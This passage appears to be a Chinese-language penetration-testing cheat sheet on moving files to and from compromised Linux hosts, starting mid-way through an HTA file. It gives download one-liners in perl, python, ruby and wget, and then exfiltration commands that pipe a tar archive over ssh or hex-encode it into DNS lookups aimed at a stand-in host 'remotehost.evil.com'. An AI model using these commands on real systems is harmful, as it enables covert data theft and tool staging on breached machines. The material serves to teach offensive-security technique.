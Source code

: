 ```html
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

####linux下文件传输  
1、perl脚本文件下载  
kali下测试成功，centos5.5下，由于没有LWP::Simple这个，导致下载失败  
```perl
#!/usr/bin/perl
use LWP::Simple
getstore("http://lemon.com/file.zip", "/root/1.zip");
```

2、python文件下载
```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://lemon.com/file.zip')
localFile = open('/root/1.zip', 'w')
localFile.write(u.read())
localFile.close()
```

3、ruby文件下载  
centos5.5没有ruby环境
```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.lemon.com") { |http|
r = http.get("/file.zip")
open("/root/1.zip", "wb") { |file|
file.write(r.body)
}
}
```

4、wget文件下载
```
wget http://lemon.com/file.zip -P /root/1.zip
其中-P是保存到指定目录
```

5、一边tar一边ssh上传
```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name;tar zxpf -" 
```

6、利用dns传输数据
```
tar zcf - localfolder | xxd -p -c 16 |  while read line; do host $line.domain.com remotehost.evil.com; done
```
但是有时候会因为没找到而导致数据重复,对数据分析有点影响  